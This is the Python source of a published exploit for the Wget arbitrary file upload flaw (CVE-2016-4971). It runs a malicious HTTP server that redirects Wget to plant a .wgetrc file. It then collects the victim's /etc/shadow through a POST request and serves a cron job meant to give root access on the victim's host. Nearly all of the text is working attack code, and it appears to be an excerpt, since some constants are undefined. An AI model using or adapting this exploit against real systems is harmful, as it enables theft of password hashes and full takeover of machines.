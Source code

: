 ```python
#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
       self.send_response(301)
       new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
       print "Sending redirect to %s \n"%(new_path)
       self.send_header('Location', new_path)
       self.end_headers()

   def do_POST(self):
       # In here we will receive extracted file and install a PoC cronjob

       print "We have a volunteer requesting " + self.path + " by POST :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
          print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

```